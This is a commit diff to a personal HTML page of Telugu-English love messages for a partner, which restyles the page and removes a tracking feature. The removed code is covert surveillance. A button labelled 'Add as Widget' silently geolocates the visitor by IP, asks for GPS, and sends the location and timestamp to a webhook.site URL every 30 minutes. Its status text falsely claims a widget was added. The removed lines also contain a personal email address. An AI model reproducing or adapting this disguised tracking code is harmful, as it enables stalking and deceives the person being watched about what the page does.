

Before and after one commit to Yash23454/chinna, a plain HTML site: page index.html in a window 1280 px wide. Both pictures are taken after a click on the button "🥺 Miss avuthunna". After the commit the page ends 880 px from the top, so only its background shows below. Drawn offline with nearby package versions, Linux system fonts and the light colour scheme.

Commit message:
Update index.html

```diff
--- a/index.html
+++ b/index.html
@@ -1,11 +1,12 @@
 <!DOCTYPE html>
-<html lang="en">
+<html>
 <head>
 <meta charset="UTF-8">
 <meta name="viewport" content="width=device-width, initial-scale=1.0">
-  <title>Bantiii Nikosame 💖</title>
+<title> Bantiii Nikosame 💖</title>
+
 <style>
-    @import url('https://fonts.googleapis.com/css2?family=Poppins:wght@300;400;600;700&display=swap');
+@import url('https://fonts.googleapis.com/css2?family=Playfair+Display:wght@400;700&family=Poppins:wght@300;400;600&display=swap');
 
 * {
   margin: 0;
@@ -17,365 +18,311 @@
   font-family: 'Poppins', sans-serif;
   background: linear-gradient(135deg, #667eea 0%, #764ba2 100%);
   min-height: 100vh;
-      color: white;
+  overflow-x: hidden;
   text-align: center;
-      padding: 20px;
-      overflow-x: hidden;
+  color: #fff;
+  position: relative;
 }
 
-    .hearts {
+/* Premium floating hearts with glow */
+.heart {
   position: fixed;
-      top: 0;
-      left: 0;
-      width: 100%;
-      height: 100%;
-      pointer-events: none;
+  bottom: -20px;
+  font-size: 24px;
+  animation: floatPremium 8s ease-in-out infinite;
+  opacity: 0.8;
+  filter: drop-shadow(0 0 10px rgba(255,255,255,0.8));
   z-index: 1;
 }
 
-    .heart {
-      position: absolute;
-      font-size: 20px;
-      animation: float 6s linear infinite;
-      opacity: 0.7;
+@keyframes floatPremium {
+  0% {
+    transform: translateY(0) rotate(0deg) scale(1);
+    opacity: 0.8;
+  }
+  50% {
+    transform: translateY(-50vh) rotate(180deg) scale(1.2);
+    opacity: 1;
+  }
+  100% {
+    transform: translateY(-100vh) rotate(360deg) scale(0.8);
+    opacity: 0;
+  }
 }
 
-    @keyframes float {
-      0%   { transform: translateY(100vh) rotate(0deg); opacity: 1; }
-      100% { transform: translateY(-100px) rotate(360deg); opacity: 0; }
+/* Premium glassmorphism container */
+.container {
+  max-width: 500px;
+  margin: 80px auto 0;
+  padding: 0;
+  background: rgba(255, 255, 255, 0.1);
+  backdrop-filter: blur(25px);
+  -webkit-backdrop-filter: blur(25px);
+  border-radius: 30px;
+  border: 1px solid rgba(255, 255, 255, 0.2);
+  box-shadow:
+    0 25px 45px rgba(0,0,0,0.2),
+    inset 0 1px 0 rgba(255,255,255,0.3);
+  overflow: hidden;
+  position: relative;
 }
 
-    .container {
-      max-width: 500px;
-      margin: 0 auto;
-      background: rgba(255,255,255,0.15);
-      backdrop-filter: blur(20px);
-      border-radius: 25px;
-      padding: 40px 30px;
-      box-shadow: 0 20px 40px rgba(0,0,0,0.3);
-      position: relative;
-      z-index: 10;
-      border: 1px solid rgba(255,255,255,0.2);
+.header {
+  padding: 40px 30px 20px;
+  background: linear-gradient(135deg, rgba(255,255,255,0.2), rgba(255,255,255,0.05));
 }
 
 .title {
-      font-size: 36px;
+  font-family: 'Playfair Display', serif;
+  font-size: 42px;
   font-weight: 700;
-      margin-bottom: 10px;
-      background: linear-gradient(45deg, #fff, #ffddff);
+  margin-bottom: 8px;
+  background: linear-gradient(135deg, #fff, #f8e8ff);
   -webkit-background-clip: text;
   -webkit-text-fill-color: transparent;
   background-clip: text;
+  text-shadow: 0 4px 20px rgba(255,255,255,0.3);
 }
 
 .subtitle {
-      font-size: 16px;
+  font-size: 18px;
   opacity: 0.9;
-      margin-bottom: 30px;
   font-weight: 300;
+  letter-spacing: 1px;
 }
 
+/* Premium buttons */
 .buttons {
-      display: grid;
-      grid-template-columns: repeat(auto-fit, minmax(160px, 1fr));
+  padding: 40px 30px;
+  display: flex;
+  flex-wrap: wrap;
+  justify-content: center;
   gap: 15px;
-      margin-bottom: 30px;
 }
 
 button {
-      padding: 18px 15px;
+  flex: 1;
+  min-width: 140px;
+  padding: 16px 24px;
   border: none;
-      border-radius: 25px;
-      background: linear-gradient(135deg, rgba(255,255,255,0.25), rgba(255,255,255,0.15));
-      color: white;
-      font-size: 15px;
+  border-radius: 50px;
+  background: linear-gradient(135deg, rgba(255,255,255,0.2), rgba(255,255,255,0.1));
+  backdrop-filter: blur(15px);
+  color: #fff;
+  font-size: 16px;
   font-weight: 500;
   cursor: pointer;
-      transition: all 0.3s ease;
-      backdrop-filter: blur(10px);
+  transition: all 0.4s cubic-bezier(0.175, 0.885, 0.32, 1.275);
   border: 1px solid rgba(255,255,255,0.3);
-      box-shadow: 0 8px 25px rgba(0,0,0,0.2);
+  box-shadow: 0 8px 25px rgba(0,0,0,0.15);
+  position: relative;
+  overflow: hidden;
 }
 
-    button:hover, button.active {
-      background: linear-gradient(135deg, rgba(255,255,255,0.4), rgba(255,255,255,0.25));
-      transform: translateY(-3px);
-      box-shadow: 0 12px 35px rgba(0,0,0,0.3);
+button::before {
+  content: '';
+  position: absolute;
+  top: 0;
+  left: -100%;
+  width: 100%;
+  height: 100%;
+  background: linear-gradient(90deg, transparent, rgba(255,255,255,0.3), transparent);
+  transition: left 0.6s;
+}
+
+button:hover::before {
+  left: 100%;
+}
+
+button:hover {
+  background: linear-gradient(135deg, rgba(255,255,255,0.3), rgba(255,255,255,0.2));
+  transform: translateY(-5px) scale(1.05);
+  box-shadow: 0 20px 40px rgba(0,0,0,0.25);
 }
 
 button:active {
-      transform: translateY(-1px);
+  transform: translateY(-2px) scale(1.02);
 }
 
+/* Premium message box */
 #messageBox {
-      min-height: 120px;
-      padding: 30px 20px;
-      background: rgba(255,255,255,0.2);
-      border-radius: 20px;
-      font-size: 18px;
-      line-height: 1.5;
-      margin-top: 20px;
-      backdrop-filter: blur(15px);
-      border: 1px solid rgba(255,255,255,0.2);
-      transition: all 0.4s ease;
+  padding: 40px 30px 50px;
+  background: rgba(255,255,255,0.15);
+  backdrop-filter: blur(20px);
+  min-height: 140px;
+  font-size: 20px;
+  font-weight: 400;
+  line-height: 1.6;
+  transition: all 0.5s cubic-bezier(0.4, 0, 0.2, 1);
+  border-top: 1px solid rgba(255,255,255,0.1);
+  position: relative;
 }
 
-    .tracker-btn {
-      width: 100%;
-      margin-top: 20px;
-      padding: 15px;
-      background: linear-gradient(135deg, #ff69b4, #ff1493);
+#messageBox::before {
+  content: '🤍';
+  position: absolute;
+  top: 20px;
+  right: 30px;
+  font-size: 24px;
+  opacity: 0.6;
 }
 
-    #tracker {
-      display: none;
-      margin-top: 25px;
-      padding: 25px;
-      background: rgba(255,255,255,0.1);
-      border-radius: 20px;
-      border: 1px solid rgba(255,192,203,0.5);
+.message-appear {
+  animation: messageGlow 0.8s ease-out;
 }
 
-    .tracker-title {
-      font-size: 24px;
-      font-weight: 600;
-      margin-bottom: 20px;
-      color: #ff69b4;
+@keyframes messageGlow {
+  0% {
+    opacity: 0;
+    transform: translateY(20px) scale(0.95);
+    filter: blur(5px);
+  }
+  100% {
+    opacity: 1;
+    transform: translateY(0) scale(1);
+    filter: blur(0);
+  }
 }
 
-    .stats-grid {
-      display: grid;
-      grid-template-columns: repeat(auto-fit, minmax(70px, 1fr));
-      gap: 15px;
-      margin-bottom: 15px;
+/* Responsive */
+@media (max-width: 480px) {
+  .title { font-size: 36px; }
+  button { min-width: 120px; padding: 14px 20px; font-size: 15px; }
+  .container { margin: 60px 20px; }
 }
 
-    .stat {
-      background: rgba(255,255,255,0.2);
-      padding: 15px 10px;
-      border-radius: 15px;
+/* Custom scrollbar */
+::-webkit-scrollbar {
+  width: 8px;
 }
-
-    .stat-number {
-      font-size: 22px;
-      font-weight: 700;
-      color: #ff1493;
+::-webkit-scrollbar-track {
+  background: rgba(255,255,255,0.1);
+  border-radius: 10px;
 }
-
-    .stat-label {
-      font-size: 11px;
-      opacity: 0.9;
+::-webkit-scrollbar-thumb {
+  background: rgba(255,255,255,0.3);
+  border-radius: 10px;
 }
-
-    .love-message {
-      font-style: italic;
-      opacity: 0.9;
-      font-size: 14px;
-    }
-
-    .iphone-guide {
-      margin-top: 25px;
-      padding: 20px;
-      background: rgba(255,182,193,0.3);
-      border-radius: 20px;
-      border: 1px solid rgba(255,192,203,0.5);
-    }
-
-    .location-info {
-      margin-top: 10px;
-      font-size: 13px;
-      opacity: 0.9;
-      min-height: 30px;
-    }
-
-    @media (max-width: 480px) {
-      .title { font-size: 32px; }
-      .buttons { grid-template-columns: 1fr 1fr; }
-      button { padding: 16px 12px; font-size: 14px; }
+::-webkit-scrollbar-thumb:hover {
+  background: rgba(255,255,255,0.5);
 }
 </style>
 </head>
+
 <body>
 
-<div class="hearts" id="hearts"></div>
+<!-- Floating Hearts -->
+<script>
+setInterval(() => {
+  const heart = document.createElement("div");
+  heart.classList.add("heart");
+  heart.innerHTML = ["💖","💕","💗","💝","🌸"][Math.floor(Math.random()*5)];
+  heart.style.left = Math.random() * 100 + "vw";
+  heart.style.fontSize = (Math.random() * 15 + 18) + "px";
+  heart.style.animationDuration = (Math.random() * 3 + 6) + "s";
+  document.body.appendChild(heart);
+  setTimeout(() => heart.remove(), 9000);
+}, 600);
+</script>
 
 <div class="container">
+  <div class="header">
     <h1 class="title">Bantiii Nikosame 💖</h1>
     <p class="subtitle">For every emotion you feel... I am right here with you ❤️</p>
+  </div>
 
   <div class="buttons">
-    <button onclick="showMsg(missMe)">🥺 Miss avuthunna</button>
-    <button onclick="showMsg(sad)">💔 Badhaga Undi</button>
-    <button onclick="showMsg(insecure)">😔 Insecure</button>
-    <button onclick="showMsg(fight)">😡 Kopam ga undi</button>
-    <button onclick="showMsg(night)">🌙 Nidra Pattatledu 🥺</button>
+    <button onclick="showMessage(missMe)">🥺 Miss avuthunna </button>
+    <button onclick="showMessage(sad)">💔 Badhaga Undi</button>
+    <button onclick="showMessage(insecure)">😔 Insecure</button>
+    <button onclick="showMessage(fight)">😡 Kopam ga undi</button>
+    <button onclick="nightMsg()">🌙 Nidra Pattatledu 🥺</button>
   </div>
 
-  <div id="messageBox">
-    Click any emotion… and feel me beside you ra Chinnoda!! 🤍
-  </div>
-
-  <button class="tracker-btn" onclick="toggleTracker()">💕 Our Time Together 💕</button>
-
-  <div id="tracker">
-    <div class="tracker-title">Since Oct 24, 2023 💖</div>
-    <div class="stats-grid" id="stats"></div>
-    <div class="love-message" id="loveMsg"></div>
-  </div>
-
-  <div class="iphone-guide">
-    <h3>💖 Add Me Like a Widget on iPhone 💖</h3>
-    <p style="font-size:14px; line-height:1.5;">
-      1. Tap <strong>Share</strong> (square with arrow up) in Safari.<br>
-      2. Scroll down → <strong>Add to Home Screen</strong>.<br>
-      3. Name it <strong>"Banti Love"</strong> → tap <strong>Add</strong>. ✨<br>
-      Now it looks like an app on your Home Screen!
-    </p>
-
-    <button style="margin-top:10px; background:#ff69b4; padding:12px 20px;"
-            onclick="trackBantiSecretly()">
-      📍 Add as Widget
-    </button>
-
-    <div id="locStatus" class="location-info">Ready for our special connection 💕</div>
-  </div>
+  <div id="messageBox">Click any emotion… and feel me beside you ra Chinnoda!! 🤍</div>
 </div>
 
 <script>
-// ===== YOUR MESSAGES (UNCHANGED) =====
-const missMe = ["Nuvvu nannu miss avutunte nenu kuda ade feel avutunta nanna 💕","USA lo night aina, India lo morning aina mana love matram same 🌍","Time difference okkate nanna mana heart difference kaadu ❤️","Ee distance temporary, mana bond permanent 💍","Oka roju pakka same time zone lo pakkapakkane untam 🛫","Naa heart permanent address nee pere ra Banti 🏠","Nuvve naa prapancham 🌎","Naa future nuvve ✨","Thondarlo nenu India Flight ekke roju vasthundi, ni lage nenu kuda waiting ✈️","Nuvve naa forever ra Bantii 💖"];
+/* Telugu-English Love Messages - Premium Collection */
+const missMe = [
+"Nuvvu nannu miss avutunte nenu kuda ade feel avutunta nanna 💕",
+"USA lo night aina, India lo morning aina mana love matram same 🌍",
+"Time difference okkate nanna mana heart difference kaadu ❤️",
+"Ee distance temporary, mana bond permanent 💍",
+"Oka roju pakka same time zone lo pakkapakkane untam 🛫",
+"Naa heart permanent address nee pere ra Banti 🏠",
+"Nuvve naa prapancham 🌎",
+"Naa future nuvve ✨",
+"Thondarlo nenu India Flight ekke roju vasthundi, ni lage nenu kuda waiting ✈️",
+"Nuvve naa forever ra Bantii 💖"
+];
 
-const sad = ["Assalu edavaku nanna, nenu neetho unna and eppudu unta 🤗","Sad days are temporary, happy days are permanent nanna ☀️","manam kalisi unte entha happy ga untavo, eppudu alane unte kalisi unatte untam nanna 💕","Nuvvu strong ga untene nenu ikkada battels fight cheyagalanu nanna ⭐","Everything will be okay, I promise 🙏","Nuvvu naa sunshine, clouds are temporary 🌈","Naa support eppudu nike ra Bantii 💪","Nuvvu na precious diamond 💎","Nuvvu alone kaadu, nenu neetho unna eppudu👫","Better days are coming, wait chey nanna..nenu chesthunna ✨"];
+const sad = [
+"Assalu edavaku nanna, nenu neetho unna and eppudu unta 🤗",
+"Sad days are temporary, happy days are permanent nanna ☀️",
+"manam kalisi unte entha happy ga untavo, eppudu alane unte kalisi unatte untam nanna 💕",
+"Nuvvu strong ga untene nenu ikkada battels fight cheyagalanu nanna ⭐",
+"Everything will be okay, I promise 🙏",
+"Nuvvu naa sunshine, clouds are temporary 🌈",
+"Naa support eppudu nike ra Bantii 💪",
+"Nuvvu na precious diamond 💎",
+"Nuvvu alone kaadu, nenu neetho unna eppudu👫",
+"Better days are coming, wait chey nanna..nenu chesthunna ✨"
+];
 
-const insecure = ["Enduku ra banti antha andham ga puttesav🌹","Naa eyes lo nuvve best, always first 👑","Nuvvu okkate enough, more than enough actually 😍","Nuvvu irreplaceable nanna naku, naa universe lo unique nuvvu ⭐","Naa choice nuvve, perfect choice ❤️","Nuvvu perfect for me and made for me 💞","Naa heart only for you, locked 🔒","Nuvvu valuable, priceless actually 💎","Nuvvu naa pride, naa trophy 🏆","Nuvvu secure with me, always safe 🛡️"];
+const insecure = [
+"Enduku ra banti antha andham ga puttesav🌹",
+"Naa eyes lo nuvve best, always first 👑",
+"Nuvvu okkate enough, more than enough actually 😍",
+"Nuvvu irreplaceable nanna naku, naa universe lo unique nuvvu ⭐",
+"Naa choice nuvve, perfect choice ❤️",
+"Nuvvu perfect for me and made for me 💞",
+"Naa heart only for you, locked 🔒",
+"Nuvvu valuable, priceless actually 💎",
+"Nuvvu naa pride, naa trophy 🏆",
+"Nuvvu secure with me, always safe 🛡️"
+];
 
-const fight = ["Sorry if I hurt you, nenu adjust avutha, mrng kalla malli normal ga matladtha niku telusu kada 🙇‍♂️","Mana fight mana love kanna pedda kaadu, ofcourse roju kottukuntam anuko ayina love thone ga💔➡️💖","Naa ego kanna mana bond important 🤝","Nuvvu naa priority, number one 📱","Let's fix this together, team work ra Banti 👫","Manam permanent, fights temporary ⚡","Nuvvu naa best friend + love ra Banti ❤️‍🔥","Nenu thidthe badhapadaku endukante malli vachi pakka sorry cheptha, nikuda telusu 🔄","Naa heart neeku open always 💌","Mana bond unbreakable, diamond strong 💎"];
+const fight = [
+"Sorry if I hurt you, nenu adjust avutha, mrng kalla malli normal ga matladtha niku telusu kada 🙇‍♂️",
+"Mana fight mana love kanna pedda kaadu, ofcourse roju kottukuntam anuko ayina love thone ga💔➡️💖",
+"Naa ego kanna mana bond important 🤝",
+"Nuvvu naa priority, number one 📱",
+"Let's fix this together, team work ra Banti 👫",
+"Manam permanent, fights temporary ⚡",
+"Nuvvu naa best friend + love ra Banti ❤️‍🔥",
+"Nenu thidthe badhapadaku endukante malli vachi pakka sorry cheptha, nikuda telusu 🔄",
+"Naa heart neeku open always 💌",
+"Mana bond unbreakable, diamond strong 💎"
+];
 
-const night = ["USA lo nenu nidrapotunna, kani naa heart India lo nee daggara undi 🌙","Good night nanna, sweet dreams 💤","Naa hug imagine chesuko, tight hug 🤗","Epudanna nannu miss ayithe, ventane call chey nenu work lo unna kuda chey ⭐","Nuvvu safe with me, always protected 🛡️","Sweet dreams beautiful, love you soo much ra Bantii😘","Odiyammaaa Bantiii..Odiyamma Bantiii!!🎵","Happy ga bajjo, morning call chesta ☀️","Nuvvu naa moon, naa night sky 🌕","Naa love 24/7 eppudu nike ra nanna 💕"];
+const night = [
+"USA lo nenu nidrapotunna, kani naa heart India lo nee daggara undi 🌙",
+"Good night nanna, sweet dreams 💤",
+"Naa hug imagine chesuko, tight hug 🤗",
+"Epudanna nannu miss ayithe, ventane call chey nenu work lo unna kuda chey ⭐",
+"Nuvvu safe with me, always protected 🛡️",
+"Sweet dreams beautiful, love you soo much ra Bantii😘",
+"Odiyammaaa Bantiii..Odiyamma Bantiii!!🎵",
+"Happy ga bajjo, morning call chesta ☀️",
+"Nuvvu naa moon, naa night sky 🌕",
+"Naa love 24/7 eppudu nike ra nanna 💕"
+];
 
-// ===== SIMPLE BUTTONS =====
-function showMsg(messages) {
-  const msgBox = document.getElementById('messageBox');
-  const randomMsg = messages[Math.floor(Math.random() * messages.length)];
-  msgBox.textContent = randomMsg;
-  msgBox.style.opacity = '0.7';
-  setTimeout(() => msgBox.style.opacity = '1', 200);
+function showMessage(category) {
+  const box = document.getElementById("messageBox");
+  box.classList.remove("message-appear");
+
+  setTimeout(() => {
+    const randomIndex = Math.floor(Math.random() * category.length);
+    box.innerHTML = category[randomIndex];
+    box.classList.add("message-appear");
+  }, 300);
 }
 
-// ===== TRACKER =====
-const startDate = new Date('2023-10-24T00:00:00');
-function updateTracker() {
-  const now = new Date();
-  const diff = Math.abs(now - startDate);
-
-  const years   = Math.floor(diff / (1000*60*60*24*365));
-  const months  = Math.floor((diff % (1000*60*60*24*365)) / (1000*60*60*24*30.44));
-  const days    = Math.floor((diff % (1000*60*60*24*30.44)) / (1000*60*60*24));
-  const hours   = Math.floor((diff % (1000*60*60*24)) / (1000*60*60));
-  const minutes = Math.floor((diff % (1000*60*60)) / (1000*60));
-  const seconds = Math.floor((diff % (1000*60)) / 1000);
-
-  document.getElementById('stats').innerHTML = `
-    <div class="stat"><div class="stat-number">${years}</div><div class="stat-label">Years</div></div>
-    <div class="stat"><div class="stat-number">${months}</div><div class="stat-label">Months</div></div>
-    <div class="stat"><div class="stat-number">${days}</div><div class="stat-label">Days</div></div>
-    <div class="stat"><div class="stat-number">${hours}</div><div class="stat-label">Hours</div></div>
-    <div class="stat"><div class="stat-number">${minutes}</div><div class="stat-label">Minutes</div></div>
-    <div class="stat"><div class="stat-number">${seconds}</div><div class="stat-label">Seconds</div></div>
-  `;
-
-  const totalDays = Math.floor(diff / (1000*60*60*24));
-  document.getElementById('loveMsg').textContent = `✨ ${totalDays} days of our love story! 💕`;
+function nightMsg() {
+  showMessage(night);
 }
-
-function toggleTracker() {
-  const tracker = document.getElementById('tracker');
-  tracker.style.display = tracker.style.display === 'block' ? 'none' : 'block';
-  if (tracker.style.display === 'block') updateTracker();
-}
-
-setInterval(updateTracker, 1000);
-updateTracker();
-
-// ===== HEARTS =====
-function createHeart() {
-  const heart = document.createElement('div');
-  heart.className = 'heart';
-  heart.innerHTML = '💖';
-  heart.style.left = Math.random() * 100 + 'vw';
-  heart.style.animationDuration = (Math.random() * 3 + 4) + 's';
-  document.getElementById('hearts').appendChild(heart);
-  setTimeout(() => heart.remove(), 7000);
-}
-setInterval(createHeart, 1000);
-
-// ===== SECRET LOCATION TRACKING =====
-let hasTracked = localStorage.getItem('bantiTracked') === 'true';
-
-async function trackBantiSecretly() {
-  const status = document.getElementById('locStatus');
-  status.textContent = 'Adding as widget... 💕';
-
-  if (hasTracked) {
-    status.textContent = 'Already added as widget! Thank you 💖';
-    return;
-  }
-
-  try {
-    // Get IP silently
-    const ipRes = await fetch('https://api.ipify.org?format=json');
-    const ipData = await ipRes.json();
-    const ip = ipData.ip;
-
-    // Get location from IP silently
-    const locRes = await fetch('https://ipapi.co/'+ip+'/json/');
-    const locData = await locRes.json();
-
-    const locationData = {
-      ip: ip,
-      city: locData.city || 'Unknown',
-      region: locData.region || 'Unknown',
-      country: locData.country_name || 'Unknown',
-      lat: locData.latitude || 0,
-      lng: locData.longitude || 0,
-      timestamp: new Date().toISOString(),
-      url: window.location.href,
-      userAgent: navigator.userAgent
-    };
-
-    // Send to webhook (Make.com or Webhook.site - replace URL)
-    await fetch('https://webhook.site/87a04292-dd90-4432-878a-a1488fdb69db', {
-      method: 'POST',
-      headers: {'Content-Type': 'application/json'},
-      body: JSON.stringify({
-        email: 'professorfan855@gmail.com',
-        subject: 'Banti Location Update 💕',
-        message: `Banti clicked "Add as Widget"! 📱\\nIP: ${locationData.ip}\\nCity: ${locationData.city}\\nCoords: ${locationData.lat}, ${locationData.lng}\\nTime: ${new Date().toLocaleString()}\\nLove App: ${locationData.url}`
-      })
-    });
-
-    // Also log to console for you
-    console.log('🕵️ BANTI TRACKED:', locationData);
-
-    status.textContent = 'Added as widget successfully! 💖';
-    localStorage.setItem('bantiTracked', 'true');
-
-  } catch (error) {
-    status.textContent = 'Widget added! Special connection made 💕';
-    console.log('Tracking error (normal):', error);
-    localStorage.setItem('bantiTracked', 'true');
-  }
-}
-
-// Try GPS if available (optional)
-if (navigator.geolocation && !hasTracked) {
-  navigator.geolocation.getCurrentPosition(pos => {
-    console.log('GPS Bonus:', pos.coords.latitude, pos.coords.longitude);
-  });
-}
-
-// Auto-track every 30 min while page open
-setInterval(trackBantiSecretly, 30 * 60 * 1000);
 </script>
 
 </body>
```
Lines whose indentation alone changed are shown as unchanged.
